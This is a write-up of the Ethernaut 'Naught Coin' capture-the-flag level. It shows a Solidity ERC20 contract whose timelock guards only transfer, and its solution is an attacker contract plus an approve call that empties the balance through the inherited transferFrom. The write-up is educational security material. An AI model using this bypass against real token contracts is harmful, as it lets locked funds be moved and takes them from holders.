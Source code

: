 ```yaml
---
description: ERC20 and contract inheritance
---
```


# 15 - Naught Coin

Ethernaut Level15: [Naught Coin](https://ethernaut.openzeppelin.com/level/0x36E92B2751F260D6a4749d7CA58247E7f8198284)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

### Goal of this level

* make player's token balance `0`

### What you should know before

* ERC20\
  \-> see [here](https://www.youtube.com/watch?v=gwn1rVDuGL0) and [here](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)&#x20;
* inheritance\
  \-> see [here](https://www.youtube.com/watch?v=Ck5PUwL2D6I)

## Solution

NaughtCoin contract inherits `ERC20`.

Because of timelock, we cannot use `transfer`, but we can use `transferFrom` instead.

```solidity
contract AttackNaughtCoin {
    NaughtCoin public naughtCoinAddr;
    constructor (address _addr) {
        naughtCoinAddr = NaughtCoin(_addr);
    }

    function attack() public {
        uint256 balance = naughtCoinAddr.balanceOf(msg.sender);
        naughtCoinAddr.transferFrom(msg.sender, address(this), balance);
    }
}
```

Deploy our exploit contract and approve it so it can move the token on player's behalf.

```javascript
> await contract.approve("0xAee9d66A9777c0d745015785DF6a0bda11E1b6b1", (await contract.balanceOf(player)).toString());
```

All of player's tokens will be transferd when `attack()` is called.

Done! 😎

## Key Takeaway

* When writing a contract that inhertis other contracts, \
  make sure that you are familiar with all of the functions it inherits.
